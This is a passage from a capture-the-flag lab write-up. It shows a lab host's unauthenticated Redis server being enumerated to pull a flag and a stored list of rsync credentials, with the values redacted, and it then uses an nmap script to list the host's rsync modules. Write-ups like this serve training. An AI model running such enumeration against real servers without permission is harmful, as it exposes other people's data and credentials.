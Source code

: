 ```
10.10.174.8:6379> info keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.10.174.8:6379> select 0
OK
10.10.174.8:6379> keys *
1) "int"
2) "authlist"
3) "internal flag"
4) "marketlist"
5) "tmp"
10.10.174.8:6379> 
````
Exploring the keys, we find our second flag and the credentials to connect to the rsync service:  

### Second Flag

```
10.10.174.8:6379> get "internal flag"
"REDACTED"
10.10.174.8:6379> 
```
#### Credentials for rsync service:  

There are four possible values, but only one will decode probably to receive the credentials:  

```
10.10.174.8:6379> get authlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.174.8:6379> type authlist
list
10.10.174.8:6379> lrange authlist 0 -1
1) "REDACTED"
2) "REDACTED"
3) "REDACTED"
4) "REDACTED"
10.10.174.8:6379> 
```



## Explore Rsync

Before we can rsync data, let's find out what directory share(s) --also known as modules-- are available.  You can use nmap or metasploit to get the list of modules:  

### Nmap version

```
nmap -sV --script "rsync-list-modules" -p  873 ${target}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-19 14:21 EST
Nmap scan report for 10.10.174.8
Host is up (0.090s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  files               Necessary home interaction
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```
